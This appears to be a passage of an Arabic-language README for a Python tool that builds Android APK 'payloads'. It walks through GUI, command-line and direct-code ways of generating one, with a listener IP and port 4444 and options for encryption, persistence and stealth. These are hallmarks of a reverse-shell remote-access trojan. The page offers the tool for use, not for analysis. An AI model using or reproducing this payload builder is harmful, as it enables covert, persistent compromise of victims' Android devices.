 ### 2. APK مبسط (بديل) ⚡
- **المتطلبات**: لا يتطلب Android SDK
- **المميزات**:
  - سريع الإنشاء
  - حجم صغير
  - قد يحتاج تعديلات إضافية

### 3. مشروع Android Studio (متقدم) 🛠️
- **المتطلبات**: Android Studio
- **المميزات**:
  - تحكم كامل في الكود
  - إضافة ميزات مخصصة
  - توقيع مخصص

## 📱 كيفية إنشاء APK حقيقي

### الطريقة الأولى: الواجهة الرسومية
1. شغل `python main.py --gui`
2. اختر تبويب "إنشاء البايلود"
3. أدخل المعلومات المطلوبة
4. اضغط "إنشاء البايلود"
5. انتظر حتى يكتمل الإنشاء

### الطريقة الثانية: سطر الأوامر
```bash
python main.py
# اختر: 1 (إنشاء بايلود جديد)
# أدخل: اسم البايلود
# أدخل: عنوان IP (مثل: 192.168.1.100)
# أدخل: المنفذ (مثل: 4444)
# اختر: الخيارات المتقدمة
```

### الطريقة الثالثة: الكود مباشرة
```python
from core.payload_generator import PayloadGenerator

generator = PayloadGenerator()
result = generator.create_payload(
    name="my_payload",
    lhost="192.168.1.100",
    lport=4444,
    encryption=True,
    persistence=True,
    stealth=True
)

print(f"APK created: {result['apk_path']}")
```
